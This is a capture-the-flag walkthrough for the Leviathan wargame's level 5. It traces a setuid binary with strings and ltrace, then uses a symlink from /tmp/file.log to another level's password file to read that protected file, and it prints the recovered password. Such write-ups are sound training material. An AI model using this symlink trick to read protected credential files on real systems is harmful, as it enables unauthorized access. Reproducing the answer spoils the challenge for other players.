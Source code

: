 # Leviathan Level 5

You can watch the walkthrough for this level here:  
[![YouTube](https://img.shields.io/badge/YouTube-Walkthrough-red?logo=youtube)](https://www.youtube.com/watch?v=Bbqw-52itfQ&t=1s&ab_channel=Gabahack)

> This video shows my full process solving (in Spanish) Level 5 from scratch, including the obstacles and mistakes I faced along the way. Some walkthroughs might be longer or shorter depending on the complexity of the level or how quickly I find the solution.

---


## 🔍 Exploration

We begin by inspecting the current directory. We find an executable with SUID permissions:

```bash
leviathan5@gibson:~$ ls
leviathan5
leviathan5@gibson:~$ file leviathan5 
leviathan5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0fbe5a715bf8cd28d02bc0e989a37f9c0ab21614, for GNU/Linux 3.2.0, not stripped
```
We explore its strings:

```bash
leviathan5@gibson:~$ strings leviathan5 
td4 
/lib/ld-linux.so.2
_IO_stdin_used
fgetc
puts
exit
setuid
putchar
unlink
fopen
feof
__libc_start_main
fclose
getuid
libc.so.6
GLIBC_2.0
GLIBC_2.1
GLIBC_2.34
__gmon_start__
/tmp/file.log
Cannot find /tmp/file.log
;*2$"(
GCC: (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
crt1.o
__abi_tag
__wrap_main
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
leviathan5.c
__FRAME_END__
_DYNAMIC
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_start_main@GLIBC_2.34
__x86.get_pc_thunk.bx
_edata
fclose@GLIBC_2.1
_fini
getuid@GLIBC_2.0
unlink@GLIBC_2.0
__data_start
puts@GLIBC_2.0
__gmon_start__
exit@GLIBC_2.0
__dso_handle
_IO_stdin_used
feof@GLIBC_2.0
fopen@GLIBC_2.1
putchar@GLIBC_2.0
_end
_dl_relocate_static_pie
_fp_hw
fgetc@GLIBC_2.0
__bss_start
setuid@GLIBC_2.0
__TMC_END__
_init
.symtab
.strtab
.shstrtab
.interp
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment
```

We can observe that it looks for a specific file:

```bash
/tmp/file.log
Cannot find /tmp/file.log
```

Executing the binary without the file:

```bash
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

Let’s test it with the file:

```bash
leviathan5@gibson:~$ echo 'This is a test' > /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
This is a test
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```
Once the binary is executed, the file is automatically removed:

Let’s trace the library calls using ltrace to better understand what the binary does in both cases.

❌ Case 1: When /tmp/file.log does not exist

```bash
leviathan5@gibson:~$ ltrace ./leviathan5 
__libc_start_main(0x804910d, 1, 0xffffd384, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                                      = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                                                                = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

✅ Case 2: When /tmp/file.log exists

```bash
leviathan5@gibson:~$ echo 'This is a test' > /tmp/file.log
leviathan5@gibson:~$ ltrace ./leviathan5 
__libc_start_main(0x804910d, 1, 0xffffd384, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                                      = 0x804d1a0
fgetc(0x804d1a0)                                                                                                 = 'T'
feof(0x804d1a0)                                                                                                  = 0
putchar(84, 0x804a008, 0, 0)                                                                                     = 84
fgetc(0x804d1a0)                                                                                                 = 'h'
feof(0x804d1a0)                                                                                                  = 0
putchar(104, 0x804a008, 0, 0)                                                                                    = 104
fgetc(0x804d1a0)                                                                                                 = 'i'
feof(0x804d1a0)                                                                                                  = 0
putchar(105, 0x804a008, 0, 0)                                                                                    = 105
fgetc(0x804d1a0)                                                                                                 = 's'
feof(0x804d1a0)                                                                                                  = 0
putchar(115, 0x804a008, 0, 0)                                                                                    = 115
fgetc(0x804d1a0)                                                                                                 = ' '
feof(0x804d1a0)                                                                                                  = 0
putchar(32, 0x804a008, 0, 0)                                                                                     = 32
fgetc(0x804d1a0)                                                                                                 = 'i'
feof(0x804d1a0)                                                                                                  = 0
putchar(105, 0x804a008, 0, 0)                                                                                    = 105
fgetc(0x804d1a0)                                                                                                 = 's'
feof(0x804d1a0)                                                                                                  = 0
putchar(115, 0x804a008, 0, 0)                                                                                    = 115
fgetc(0x804d1a0)                                                                                                 = ' '
feof(0x804d1a0)                                                                                                  = 0
putchar(32, 0x804a008, 0, 0)                                                                                     = 32
fgetc(0x804d1a0)                                                                                                 = 'a'
feof(0x804d1a0)                                                                                                  = 0
putchar(97, 0x804a008, 0, 0)                                                                                     = 97
fgetc(0x804d1a0)                                                                                                 = ' '
feof(0x804d1a0)                                                                                                  = 0
putchar(32, 0x804a008, 0, 0)                                                                                     = 32
fgetc(0x804d1a0)                                                                                                 = 't'
feof(0x804d1a0)                                                                                                  = 0
putchar(116, 0x804a008, 0, 0)                                                                                    = 116
fgetc(0x804d1a0)                                                                                                 = 'e'
feof(0x804d1a0)                                                                                                  = 0
putchar(101, 0x804a008, 0, 0)                                                                                    = 101
fgetc(0x804d1a0)                                                                                                 = 's'
feof(0x804d1a0)                                                                                                  = 0
putchar(115, 0x804a008, 0, 0)                                                                                    = 115
fgetc(0x804d1a0)                                                                                                 = 't'
feof(0x804d1a0)                                                                                                  = 0
putchar(116, 0x804a008, 0, 0)                                                                                    = 116
fgetc(0x804d1a0)                                                                                                 = '\n'
feof(0x804d1a0)                                                                                                  = 0
putchar(10, 0x804a008, 0, 0This is a test
)                                                                                     = 10
fgetc(0x804d1a0)                                                                                                 = '\377'
feof(0x804d1a0)                                                                                                  = 1
fclose(0x804d1a0)                                                                                                = 0
getuid()                                                                                                         = 12005
setuid(12005)                                                                                                    = 0
unlink("/tmp/file.log")                                                                                          = 0
+++ exited (status 0) +++
leviathan5@gibson:~$
```

The binary uses standard C library functions to open and read the contents of /tmp/file.log, and then it removes the file using unlink().

In this level, the binary does a good job protecting against command injection. It does not use insecure functions like system() or allow user-controlled input to be interpreted as a command.

## 💣 Exploitation

The vulnerability lies not in command injection, but in the fact that the program trusts that /tmp/file.log is a harmless file — and follows symbolic links blindly. This behavior allows us to trick the program into reading protected files using a symlink attack.

So we can exploit this behavior by creating a symbolic link that points to the password file of the next level:

```bash
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
szo7HDB88w
```

## 🔐 Password for Leviathan 6
szo7HDB88w
